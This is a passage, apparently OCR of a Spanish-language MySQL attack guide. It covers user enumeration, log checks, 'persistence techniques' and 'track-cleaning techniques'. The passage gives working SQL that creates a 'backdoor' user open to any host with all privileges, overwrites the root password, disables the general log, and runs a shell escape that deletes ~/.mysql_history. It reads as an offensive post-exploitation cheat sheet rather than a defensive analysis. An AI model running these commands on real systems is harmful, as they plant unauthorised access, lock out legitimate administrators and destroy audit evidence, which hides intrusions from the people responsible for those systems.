 ### 7.3 Enumeración de Usuarios

```sql
SELECT User, Host FROM mysql.user;
SELECT DISTINCT User FROM mysql.user;
```

### 7.4 Análisis de Logs

```sql
SHOW VARIABLES LIKE 'log%';
SHOW VARIABLES LIKE '%log%';
```

---

## 8. TÉCNICAS DE PERSISTENCIA

### 8.1 Creación de Usuario Backdoor

```sql
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password123';
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';
FLUSH PRIVILEGES;
```

### 8.2 Modificación de Usuarios Existentes

```sql
UPDATE mysql.user SET Password=PASSWORD('newpass') WHERE User='root';
FLUSH PRIVILEGES;
```

---

## 9. TÉCNICAS DE LIMPIEZA DE HUELLAS

### 9.1 Limpieza de Logs

```sql
-- Verificar logs habilitados
SHOW VARIABLES LIKE 'general_log';
SHOW VARIABLES LIKE 'log_bin';

-- Limpiar logs generales (si están habilitados)
SET GLOBAL general_log = 'OFF';
-- Truncar archivo de log manualmente
```

### 9.2 Eliminación de Historia

```sql
-- Limpiar historia de comandos MySQL
\! rm ~/.mysql_history
```

---